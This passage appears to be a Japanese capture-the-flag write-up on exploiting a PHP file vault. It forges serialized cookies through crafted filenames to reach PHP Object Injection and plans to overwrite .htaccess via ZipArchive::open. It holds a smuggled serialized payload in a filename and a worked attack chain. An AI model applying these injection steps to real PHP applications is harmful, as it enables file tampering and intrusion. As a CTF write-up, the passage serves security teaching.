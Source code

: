 これを利用すると、配列の次の要素までの、他のプロパティを示す部分まで `fakename` の文字列として扱わせることができ、頑張れば PHP Object Injection を成立させることができそうです。

以下の手順で、2 番目にアップロードされたファイルの `fakename` までの部分が文字列として扱われる Cookie を作成できました。

1. 適当なファイル (`1.php`、`2.php`) を 2 つアップロード
2. `1.php` を `../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../.php` にリネーム

```
(生成された Cookie)
a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:343:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././.php";s:8:"realname";s:44:"4ae2d637c731a3998dbfb2332ed95c3cb4938f83.php";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:5:"2.php";s:8:"realname";s:44:"4ae2d637c731a3998dbfb2332ed95c3cb4938f83.php";}}b7032d2c7a6e398af73060c633e8734cf4b86599ff028d963821a2c6d1b3b344
```

この手順を少しずついじっていきましょう。

手順 2 の前に `2.php` を `;s:8:"realname";s:9:".htaccess";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:1:"a` にリネームします。これで `?action=open&i=0` にアクセスすると、`.htaccess` の更新日時などの情報が得られました。

続いて、`VaultFile` のメソッドが呼ばれている箇所を調べていきます。

`upload` は `?action=upload` で `$vaultfile->upload($_FILES['vault_file']['name'], file_get_contents($_FILES['vault_file']['tmp_name']))` のようにして呼ばれています。第一引数は操作できますが、第二引数はダメそうです。

`open` は `?action=open` で `$files[$_GET['i']]->open($files[$_GET['i']]->fakename, $files[$_GET['i']]->realname)` のようにして呼ばれています。引数はどちらも好きなように変えられ、さらに呼ばれるタイミングも簡単に操作できます。これを利用していきましょう。

`VaultFile` の `open` は `fopen` と `fstat` でファイルの情報を得るだけで、その内容を得たり書き換えたりすることはできなさそうです。`open` というメソッドを持つ、`VaultFile` 以外のクラスを探してみましょう。

以下のコードをローカルで実行してみると、4 つ該当するクラスが見つかりました。

```php
<?php
foreach (get_declared_classes() as $c) {
  if (array_search('open', get_class_methods($c)) !== false) {
    echo $c . "\n";
  }
}
```

```
$ php find.php 
SessionHandler
XMLReader
ZipArchive
SQLite3
```

このうち [`ZipArchive::open`](http://php.net/manual/ja/ziparchive.open.php) はファイルの上書きができ、都合がよさそうです。第一引数に `sandbox/$sandbox_dir/.htaccess`、第二引数に `8` (`ZipArchive::OVERWRITE`) が入るようにしてみましょう。
